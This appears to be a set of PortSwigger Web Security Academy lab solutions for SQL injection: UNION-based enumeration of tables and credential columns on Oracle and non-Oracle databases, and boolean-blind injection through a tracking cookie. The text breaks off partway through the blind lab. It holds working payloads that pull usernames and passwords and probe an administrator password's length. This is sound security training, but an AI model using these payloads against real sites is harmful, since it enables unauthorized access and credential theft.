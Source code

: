 ### Lab: SQL injection attack, listing the database contents on non-Oracle databases

1.  Use Burp Suite to intercept and modify the request that sets the product category filter.
2.  Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'--`.
3.  Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4.  Find the name of the table containing user credentials.
5.  Use the following payload (replacing the table name) to retrieve the details of the columns in the table: `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6.  Find the names of the columns containing usernames and passwords.
7.  Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8.  Find the password for the `administrator` user, and use it to log in.

### Lab: SQL injection attack, listing the database contents on Oracle

1.  Use Burp Suite to intercept and modify the request that sets the product category filter.
2.  Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'+FROM+dual--`
3.  Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
4.  Find the name of the table containing user credentials.
5.  Use the following payload (replacing the table name) to retrieve the details of the columns in the table: `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
6.  Find the names of the columns containing usernames and passwords.
7.  Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
8.  Find the password for the `administrator` user, and use it to log in.

### Lab: Blind SQL injection with conditional responses

1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.
2.  Modify the `TrackingId` cookie, changing it to: `TrackingId=xyz' AND '1'='1`. Verify that the "Welcome back" message appears in the response.
3.  Now change it to: `TrackingId=xyz' AND '1'='2`. Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.
4.  Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`. Verify that the condition is true, confirming that there is a table called `users`.
5.  Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`. Verify that the condition is true, confirming that there is a user called `administrator`.
6.  The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`. This condition should be true, confirming that the password is greater than 1 character in length.
7.  Send a series of follow-up values to test different password lengths. Send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`. Then send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`. And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.